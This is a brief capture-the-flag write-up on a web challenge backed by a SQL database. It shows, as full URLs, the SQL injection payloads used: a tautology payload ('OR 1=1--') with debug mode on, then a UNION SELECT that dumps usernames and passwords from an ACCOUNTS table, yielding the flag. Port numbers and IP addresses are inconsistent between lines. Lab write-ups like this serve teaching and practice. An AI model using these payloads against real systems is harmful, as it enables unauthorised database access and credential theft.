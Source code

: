 Going to the service on port 4046 is a SQL database. We can turn debug mode on to see our SQL queries easier, and give it the query in the url, despite the limited dropdown and submit form that exists on the page.

Typing in: `http://44.197.231.105:3046/?province="OR%201=1--&password=wut&debug=1`

Tells us about a user with an entry like:

```
FIRST NAME = CORTEX
LAST NAME = USER
DEPARTMENT = CORTEX
PROVINCE = SomethingThatPeopleWouldNeverGuessSoTheyHaveToUseActualInjectionToGetThis
```
Richard got the final query from this:

```
http://3.238.30.178:3046/?province=" UNION SELECT username, password, NULL, NULL,NULL,NULL,NULL FROM ACCOUNTS--&password=wut&debug=1
```

Which gives us an entry that contains the flag

`MCA{c706a97ac54c0d362cd188153d40d0791fa58899}`
